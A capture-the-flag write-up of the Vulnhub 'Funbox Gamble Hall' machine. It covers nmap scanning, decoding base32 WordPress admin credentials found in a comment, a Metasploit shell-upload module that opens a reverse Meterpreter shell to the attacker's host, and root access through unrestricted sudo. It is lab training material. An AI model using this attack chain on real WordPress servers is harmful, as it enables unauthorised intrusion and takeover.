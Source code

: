 ```yaml
---
title: Vulnhub - Funbox Gamble Hall
description: My writeup on Funbox Gamble Hall box.
categories:
 - vulnhub
tags: vulnhub wordpress watch metasploit
---
```


![](https://filmdaily.co/wp-content/uploads/2020/03/Gamble-lede.jpg)

You can find the machine there > [Funbox Gamble Hall](https://www.vulnhub.com/entry/funbox-gamble-hall,551/){:target="_blank"}

## Summary

This was a really tricky box, that enjoyed pwning! The wordpress website is vulnerable only for some minutes, so we have to be fast! While website is vulnerable we can see admin commented his credentials using base32 so we can have easily a shell as www-data. Privesc to root is simple because we can run all commands as root! Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.12
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 15:52 EEST
Nmap scan report for funbox6.zte.com.cn (192.168.1.12)
Host is up (0.00020s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:18:41:BB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.28 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 15:56 EEST
Nmap scan report for funbox6.zte.com.cn (192.168.1.12)
Host is up (0.00051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0e:4f:3c:37:75:8a:a4:4d:bb:17:50:1b:ec:93:02:15 (RSA)
|   256 d7:dc:fc:b1:76:d6:76:13:da:ea:c4:30:04:bc:da:d2 (ECDSA)
|_  256 51:19:47:a6:29:c8:22:10:c2:73:34:ad:de:7f:57:d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://funbox6.box/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
```

The description of the box says to add `funbox6.box` in `/etc/hosts` so let's do this:

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.12    funbox6.box
```

Now when we browse the website we can see a wordpress site, and there is a really weird thing that says "OPENED":

![](https://i.imgur.com/H0Az7TY.png)

If we refresh the page after some minutes we can see now says "CLOSED":

![](https://i.imgur.com/eNRJQtp.png)

So my guess is:

```
OPENED -> EXPLOITABLE
CLOSED -> NO EXPLOITABLE
```

Probably there is a cronjob in the background, we can do a trick here so we don't have to refresh all the time! We will use the `watch` command to run `curl` every 1 second. When we see that greps OPENED we will fast enumerate the website & exploit it! :sunglasses:

```
$ watch -n 1 'curl http://funbox6.box/ | grep OPENED'
```

![](https://i.imgur.com/n64LLvf.png)

Perfect, now if we go to read the blog we can see an admin comment:

![](https://i.imgur.com/nopeoPn.png)

That's base32 because base32 uses as alphabet A-Z / 2-7, let's decode it:

```
$ echo MFSG22LOHJTWC3LCNRSWQYLMNQ3TONY= | base32 -d
admin:gamblehall777
```

## Shell as www-data

Perfect we have the admin creds, we can use metasploit now to spawn a reverse shell fast.

```
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD gamblehall777
PASSWORD => gamblehall777
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set vhost funbox6.box
vhost => funbox6.box
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.12
RHOSTS => 192.168.1.12
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.14:4444 
[*] Authenticating with WordPress using admin:gamblehall777...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/QPJokoCSRJ/MaNyQsLESx.php...
[*] Sending stage (38288 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.14:4444 -> 192.168.1.12:48274) at 2020-09-25 16:20:34 +0300
[+] Deleted MaNyQsLESx.php
[+] Deleted QPJokoCSRJ.php
[+] Deleted ../QPJokoCSRJ

meterpreter > shell
Process 2355 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@funbox6:$ 
```

## Shell as root

Now if we check `sudo -l` we can execute all commands as root!

```
www-data@funbox6:$ sudo -l
Matching Defaults entries for www-data on funbox6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on funbox6:
    (root) NOPASSWD: ALL
www-data@funbox6:$ sudo bash
root@funbox6:~# whoami;id 
root
uid=0(root) gid=0(root) groups=0(root)
root@funbox6:~# 
```

Let's read the flag:

![](https://i.imgur.com/3jgiNhP.png)

That a tricky box! :smile:
